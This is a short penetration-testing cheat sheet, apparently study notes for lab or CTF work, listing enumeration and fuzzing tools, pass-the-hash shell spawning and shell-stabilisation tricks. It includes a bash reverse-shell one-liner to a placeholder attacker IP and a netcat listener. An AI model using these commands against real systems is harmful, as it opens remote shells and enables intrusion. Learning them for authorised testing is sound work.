````markdown
## Useful Commands for Enumeration, Shells, and Exploitation

### Shell Access & Privilege Utilities

- `winexe` – To spawn a CMD shell  
- `pth-winexe` – To spawn a CMD shell by passing the NTLM hash  
- `(Ubuntu) getcap` – To check capabilities of binaries with elevated privileges  
- `ltrace` – Debugging tool to trace library calls  
- `whatweb` – To quickly get web application and server details  
- `dirb`, `gobuster` – Directory brute-forcing tools  
- `ffuf` – Fast web fuzzer for finding subdomains or directories  
- `grep -rni "String" *` – Recursively search for a string in a directory (case-insensitive)  
- `enum4linux` – SMB enumeration tool (sometimes very handy)  

### Shell Spawning

To spawn a stable interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

To spawn a reverse shell from the victim machine:

```bash
bash -i >& /dev/tcp/<kali-ip>/<desired-port> 0>&1
```

To stabilize the shell after suspending with Ctrl+Z:

```bash
stty raw -echo; fg
```

To use arrow keys and tab completion with Netcat:

```bash
rlwrap nc -lvnp <port>
```
